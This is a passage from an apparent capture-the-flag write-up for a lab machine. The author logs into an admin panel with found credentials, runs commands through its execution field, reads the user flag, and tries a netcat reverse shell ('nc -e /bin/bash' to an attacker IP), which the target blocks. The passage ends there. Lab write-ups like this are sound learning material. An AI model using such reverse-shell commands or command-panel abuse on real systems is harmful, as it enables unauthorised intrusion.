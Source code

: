 ### Admin Command Tool
I went to the admin panel and entered username `terra` and password `earthclimatechangebad4humans`. With that, the admin panel is mine!

<p align="center">
  <img src="images/cli_panel.png">
</p>

#### User flag
As a test, I decided to call the `ls /var` command to see if the commands executed. By doing so, I was able to find the `earth_web/` directory.

<p align="center">
  <img src="images/ls_var.png">
</p>

It turned out that in the mentioned directory there is a file `user_flag.txt`. So I checked its contents thereby getting the first flag: `Command output: [user_flag_3353b67d6437f07ba7d34afd7d2fc27d]`

To get root flag required root access to the machine. For this purpose, in the terminal I executed the command `nc -lvnp 4444` to listen on port 4444. In addition, in the CLI command execution field I entered the command `nc -e /bin/bash 192.168.100.136 4444`. It turned out that it is impossible to execute this move.

<p align="center">
  <img src="images/forbidden_conn.png">